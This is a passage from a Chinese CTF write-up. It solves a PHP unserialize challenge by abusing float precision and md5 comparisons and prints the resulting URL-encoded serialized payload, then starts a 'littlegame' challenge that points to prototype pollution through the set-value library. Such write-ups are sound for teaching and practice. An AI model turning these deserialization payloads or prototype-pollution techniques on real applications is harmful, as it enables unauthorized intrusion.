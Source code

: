 由[https://github.com/bowu678/php_bugs](https://github.com/bowu678/php_bugs)的14和22

本地构造测试

```php
<?php
class trick{
    public $trick1 = '9.1';
    public $trick2 = 9.1000000000000009;
    public function __destruct(){
        $this->trick1 = (string)$this->trick1;
        if(strlen($this->trick1) > 5 || strlen($this->trick2) > 5){
            die("你太长了");
        }
        if($this->trick1 !== $this->trick2 && md5($this->trick1) === md5($this->trick2) && $this->trick1 != $this->trick2){
            echo 'flag';
        }
        //var_dump($this->trick1 !== $this->trick2 && md5($this->trick1) === md5($this->trick2) && $this->trick1 != $this->trick2);
        //var_dump($this->trick1, $this->trick2);
    }
}
//highlight_file(__FILE__);
//$a = new trick();
//echo urlencode(serialize($a));
//unserialize($_GET['trick']);
error_reporting(0);
$a='9.1';
$a = (string)$a;
$b=9.1000000000000009; //0的个数要足够
echo strlen($a);echo strlen($b);
echo "\n";
var_dump($a, $b);
echo "\n";
var_dump($a !== $b, md5($a) === md5($b), $a != $b);
```

![22](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/b63e2777f60f59cd7ce1200a845d228e.png)

再把`$a = new trick();echo urlencode(serialize($a));`加上，得到payload：`O%3A5%3A"trick"%3A2%3A{s%3A6%3A"trick1"%3Bs%3A3%3A"9.1"%3Bs%3A6%3A"trick2"%3Bd%3A9.100000000000001%3B}`

![23](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/89153d7039f91e9507c5ed9b9f2956ad.png)

### littlegame

首先盲猜就是原型链污染.

把代码下下来本地跑一下`node bin/www`（把app.js的secret和routes/index.js的flag随便改改方便测试）

代码审计，看`routes/index.js`，第72行是`setFn(req.session.knight, key, value);`，显然有问题(题见多了)

vscode里面右键转到定义得知用的是`set-value`这个库，项目地址在[https://github.com/jonschlinkert/set-value](https://github.com/jonschlinkert/set-value)
